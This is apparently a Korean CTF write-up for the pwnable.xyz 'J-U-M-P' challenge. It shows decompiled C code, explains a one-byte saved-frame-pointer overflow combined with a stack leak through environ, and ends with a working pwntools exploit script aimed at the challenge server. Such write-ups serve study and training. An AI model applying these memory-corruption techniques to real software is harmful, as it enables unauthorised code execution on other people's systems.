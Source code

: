 ```yaml
---
title: "[pwnable.xyz]J-U-M-P"
date: 2020-1-30
ctf: Pwnable.xyz
layout: post
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int8 v3; // [rsp+2Fh] [rbp-11h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  void *v5; // [rsp+38h] [rbp-8h]

  setup();
  v4 = gen_canary();                            // canary
  puts("Jump jump\nThe Mac Dad will make you jump jump\nDaddy Mac will make you jump jump\nThe Daddy makes you J-U-M-P\n");
  v5 = &loc_BA0;
  while ( 1 )
  {
    print_menu();
    printf("> ", argv);
    v3 = read_int8();
    switch ( v3 )
    {
      case 2u:
        v5 = (void *)(signed int)((unsigned int)v5 ^ v3);
        break;
      case 3u:
        argv = (const char **)environ;
        printf("%p\n", environ);
        break;
      case 1u:
        if ( v4 == canary )
          JUMPOUT(__CS__, v5);
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

read_int8함수에서 buf 크기가 0x20인데 0x21만큼 받으므로 sfp 1바이트를 조작할 수 있다.

```c
int read_int8()
{
  char buf; // [rsp+0h] [rbp-20h]

  read(0, &buf, 33uLL);
  return atoi(&buf);
}
```

3번 메뉴로 stack address leak이 가능하고 1번 메뉴에서 v5로 뛸 수 있으므로 v5만 변조해주면 win함수를 호출할 수 있다.

main의 rbp를 옮겨서 v5위치에 v3를 만들어 win함수의 하위 1바이트로 변경해주고 canary가 걸려있으니까 rbp를 다시 되돌려준 후 JUMP 뛰면 win함수로 뛰게된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30012)
win = 0xB77
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sla('>','3')
env = int(p.recvline().strip(),16)
log.info('environ : {}'.format(hex(env)))
rbp = env - 248
log.info('rbp : {}'.format(hex(rbp)))

sa('>','A'*32+p8((rbp&0xff)+9))
sa('>',str(win&0xff))
sa('>','A'*32+p8(rbp&0xff))
sa('>','1')

p.interactive()
```

